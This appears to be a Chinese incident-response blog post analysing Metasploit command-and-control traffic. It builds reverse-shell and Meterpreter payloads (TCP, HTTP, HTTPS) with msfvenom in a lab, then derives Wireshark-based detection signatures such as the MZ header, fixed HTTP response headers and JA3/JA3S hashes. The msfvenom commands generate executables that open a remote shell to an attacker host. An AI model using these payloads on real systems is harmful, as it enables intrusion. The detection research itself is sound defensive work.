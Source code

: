 ```yaml
---
title: C2 流量分析 - MSF
published: 2025-03-09 16:49:16
tags: [应急响应]
category: 安全
draft: false
---
```


# C2 流量分析 - MSF

## MSF

## shell 模式 - TCP

制作`shell`模式的`payload`

```bash
msfvenom -p windows/x64/shell/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe     
```

靶机连接MSF，使用wireshark抓包

![image.png](image.png)

我们在`Kali`上执行`dir`

![image.png](image%201.png)

回到wireshark追踪TCP数据流，可以看到是以**明文**传输的

![image.png](image%202.png)

## meterpreter - TCP

该模式`x64`和`x32`是不一样的，首先看`x32`的后门

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe    
```

靶机连接抓包

![image.png](image%203.png)

执行命令然后追踪流，数据是加密了的；可以看到`MZ`头，明确表明这是一个 **Windows 可执行文件（PE 文件）** 的开头部分

![image.png](image%204.png)

生成`x64`的后门

```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp lhos=192.168.111.162 lport=1234 -f exe -o shell.exe
```

靶机连接抓包，追踪TCP数据流

![image.png](image%205.png)

- **`MZ` (0x4D 0x5A)** → 这表明是 **Windows PE 文件**（可执行文件 `.exe`、动态库 `.dll` 或驱动 `.sys`）。
- **`This program cannot be run in DOS mode.`** → 典型的 **DOS Stub**，再次确认是 PE 文件
- **后续字段 `ARUH..H..H`**：
    - 这里的 `H` (0x48) 是 **x86-64 (`REX.W` 指令前缀)**，通常出现在 64 位代码中

总结：这样一看x32和x64的meterpreter的特征都是差不多的，都存在`This program cannot be run in DOS mode.` 头部有微微区别，那么`meterpreter TCP`的特征就是MZ头和DOS异常

## meterpreter - HTTP

首先查看`x64`的

```bash
msfvenom -p windows/x64/meterpreter/reverse_http lhos=192.168.111.162 lport=1234 -f exe -o shell.exe   
```

靶机执行，wireshark抓包，比TCP的payload多了http的请求和响应包

![image.png](image%206.png)

追踪TCP数据流，比上面通过TCP连接的多了请求包和响应包

![image.png](image%207.png)

追踪HTTP流每个请求的参数和响应包都是一样的

![image.png](image%208.png)

我们将后门换一个端口来看TCP数据流

```bash
msfvenom -p windows/x64/meterpreter/reverse_http lhos=192.168.111.162 lport=1235 -f exe -o shell.exe           
```

![image.png](image%209.png)

可以发现有特征了，不同的端口的**返回包**都是一样的，无论是字段还是值。

```bash
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: close
Server: Apache
Content-Length: 204892
```

两个端口的**请求包**对比，`UA`前部分是相同的，`get`的参数不同

![image.png](image%2010.png)

```bash
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
User-Agent: Mozilla/5.0 
```

再看`x32`的

```bash
msfvenom -p windows/meterpreter/reverse_http lhos=192.168.111.162 lport=1234 -f exe -o shell.exe      
```

![image.png](image%2011.png)

不同端口

```bash
msfvenom -p windows/meterpreter/reverse_http lhos=192.168.111.162 lport=1235 -f exe -o shell.exe      
```

![image.png](image%2012.png)

特征和x64的是差不多的，返回包也都是一样的

```bash
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: Keep-Alive
Server: Apache
Content-Length: 178780
```

总结：x64和x32的meterpreter HTTP后门的返回包都是一样的，请求包的UA前面一部分是相同的，如果发现大量请求一个参数相同，并且返回包一样，就判断是MSF的HTTP后门

## meterpreter - HTTPS

```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhos=192.168.111.162 lport=4444 -f exe -o shell.exe
msfvenom -p windows/meterpreter/reverse_https lhos=192.168.111.162 lport=4444 -f exe -o shell.exe
```

![image.png](image%2013.png)

总结：特征就是JA3和JA3S值，MSF的HTTPS后门只存在下面几种JA3值（看了网上有四种，但是我这怎么测试都是只有这两种）

相同版本相同系统下指纹（JA3）相同，该特征与操作系统、MSF 版本有关

```bash
// JA3S
ec74a5c51106f0419184d0dd08fb05bc
// JA3
72a589da586844d7f0818ce684948eea
```